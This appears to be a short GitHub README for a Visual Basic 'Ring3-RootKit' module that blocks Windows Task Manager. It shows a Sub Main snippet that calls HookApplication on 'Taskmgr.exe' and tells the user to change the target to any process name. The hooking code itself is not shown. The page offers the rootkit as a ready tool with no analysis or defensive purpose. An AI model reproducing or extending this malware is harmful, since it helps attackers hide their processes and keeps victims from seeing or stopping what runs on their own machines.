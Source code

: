 # Ring3-RootKit
This is a VB module

This rootkit Stops Task Manager.

To change the process to stop edit:

Sub Main()

  Console.Title = "Proccess Killer"

  HookApplication("Taskmgr.exe") 'Change "Taskmgr.exe" to desired process name

  Console.ReadLine()

End Sub
